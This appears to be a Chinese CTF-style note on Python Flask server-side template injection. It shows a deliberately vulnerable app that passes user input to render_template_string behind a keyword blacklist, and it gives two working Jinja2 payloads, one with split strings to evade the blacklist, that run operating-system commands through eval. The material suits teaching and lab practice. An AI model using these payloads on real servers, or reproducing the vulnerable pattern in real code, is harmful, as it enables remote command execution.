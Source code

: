 ```
{{url_for.__globals__.__builtins__['eval']("__import__('os').popen('dir').read()")}}
```

### 题目：python ssti2

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)
@app.post('/ssti')
def index():
    if request.method == 'POST':
        name = request.form['name']
        blacklist = ['__','builtin','globals','app','url_for','get_flashed_messages','lipsum','init','os']
        if any(i in name for i in blacklist):
            return '滚丫'
        str = f'<h1>{name} is sb</h1>'
        return render_template_string(str)
        #没回显怎么办(比如最后一句换成)
        #render_template_string(str)
        #return 'success'

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=5000)
```

```
{{request["_"+'_ini'+'t_'+'_']['_'+"_global"+"s_"+"_"]["_"+"_built"+"ins_"+"_"]["eval"]("_"+"_import_"+"_('o"+"s').popen('dir').read()")}}
```

其他的payload自由发挥，基本根据黑名单的不同而变化

**黑名单绕过** 

简单来说就是用等价形式代替

https://chenlvtang.top/2021/03/31/SSTI%E8%BF%9B%E9%98%B6/

https://blog.csdn.net/miuzzx/article/details/110220425